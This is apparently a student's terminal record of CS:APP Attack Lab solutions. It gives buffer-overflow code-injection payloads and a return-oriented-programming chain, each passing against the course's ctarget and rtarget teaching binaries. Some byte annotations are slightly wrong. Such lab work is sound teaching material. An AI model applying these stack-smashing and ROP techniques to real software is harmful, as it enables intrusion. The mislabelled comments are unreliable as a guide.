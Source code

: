 # 1
~/new_space/CSAPP_Lab/Attack/target1 (master*) » cat exploit.txt | ./hex2raw | ./ctarget -q         czy@czy-307-thinkcentre-m720q-n000
Cookie: 0x59b997fa
Type string:Touch1!: You called touch1()
Valid solution for level 1 with target ctarget
PASS: Would have posted the following:
        user id bovik
        course  15213-f15
        lab     attacklab
        result  1:PASS:0xffffffff:ctarget:1:41 41 41 42 41 41 43 41 41 44 41 41 45 41 41 46 41 41 47 41 41 48 41 41 49 41 41 4A 41 41 4B 41 41 4C 41 41 4D 41 41 4E C0 17 40 00

~/new_space/CSAPP_Lab/Attack/target1 (master*) » bat exploit.txt                                    czy@czy-307-thinkcentre-m720q-n000
───────┬───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
       │ File: exploit.txt
───────┼───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
   1   │ 41 41 41 42 41 41 43 41 41 44 41 41 45 41 41 46 41 41 47 41 41 48 41 41 49 41 41 4A 41 41 4B 41 41 4C 41 41 4D 41 41 4E C0 17 
       │ 40 00 /* Level 1*/
───────┴───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────

# 2
*[master][~/new_space/CSAPP_Lab/Attack/target1]$ cat exploit.txt | ./hex2raw | ./ctarget -q
Cookie: 0x59b997fa
Type string:Touch2!: You called touch2(0x59b997fa)
Valid solution for level 2 with target ctarget
PASS: Would have posted the following:
        user id bovik
        course  15213-f15
        lab     attacklab
        result  1:PASS:0xffffffff:ctarget:2:00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 48 C7 C7 FA 97 B9 59 68 EC 17 40 00 C3 93 DC 61 55 
*[master][~/new_space/CSAPP_Lab/Attack/target1]$ bat exploit.txt 
───────┬───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
       │ File: exploit.txt
───────┼───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
   1 ~ │ 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
   2 ~ │ 48 c7 c7 fa 97 b9 59    /* mov    $0x59b997fa,%rdi */
   3 ~ │ 68 ec 17 40 00          /* pushq  $0x4017ec */
   4 ~ │ c3                      /* retq */
   5 ~ │ 93 DC 61 55             
───────┴───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────



# 3
➜  target1 git:(master) ✗ ./ctarget -i exploit-raw.txt -q          
Cookie: 0x59b997fa
Touch3!: You called touch3("59b997fa")
Valid solution for level 3 with target ctarget
PASS: Would have posted the following:
        user id bovik
        course  15213-f15
        lab     attacklab
        result  1:PASS:0xffffffff:ctarget:3:00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 48 C7 C7 A8 DC 61 55 68 FA 18 40 00 C3 93 DC 61 55 00 00 00 00 35 39 62 39 39 37 66 61 00 
➜  target1 git:(master) ✗ bat exploit.txt 
───────┬───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
       │ File: exploit.txt
───────┼───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
   1   │ 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
   2 ~ │ 48 c7 c7 a8 dc 61 55    /* mov    $0x5561dc88,%rdi */
   3 ~ │ 68 fa 18 40 00          /* pushq  $0x4018fa */
   4   │ c3                      /* retq */
   5 ~ │ 93 DC 61 55 00 00 00 00           
   6 ~ │ 35 39 62 39 39 37 66 61 00


# 4
czy-307-thinkcentre-m720q-n000 :: CSAPP_Lab/Attack/target1 » ./rtarget -i exploit-raw.txt -q
Cookie: 0x59b997fa
Touch2!: You called touch2(0x59b997fa)
Valid solution for level 2 with target rtarget
PASS: Would have posted the following:
        user id bovik
        course  15213-f15
        lab     attacklab
        result  1:PASS:0xffffffff:rtarget:2:00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 AB 19 40 00 00 00 00 00 FA 97 B9 59 00 00 00 00 C5 19 40 00 00 00 00 00 EC 17 40 00 00 00 00 00 
czy-307-thinkcentre-m720q-n000 :: CSAPP_Lab/Attack/target1 » 
czy-307-thinkcentre-m720q-n000 :: CSAPP_Lab/Attack/target1 » bat exploit.txt 
───────┬───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
       │ File: exploit.txt
───────┼───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
   1   │ 00 00 00 00 00 00 00 00
   2   │ 00 00 00 00 00 00 00 00
   3   │ 00 00 00 00 00 00 00 00
   4   │ 00 00 00 00 00 00 00 00
   5   │ 00 00 00 00 00 00 00 00
   6   │ ab 19 40 00 00 00 00 00         /* popq  %rax */
   7   │ fa 97 b9 59 00 00 00 00         /* cookie */
   8   │ c5 19 40 00 00 00 00 00         /* mov   %rdi, %rax */
   9   │ ec 17 40 00 00 00 00 00
───────┴───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
czy-307-thinkcentre-m720q-n000 :: CSAPP_Lab/Attack/target1 » 

# 5
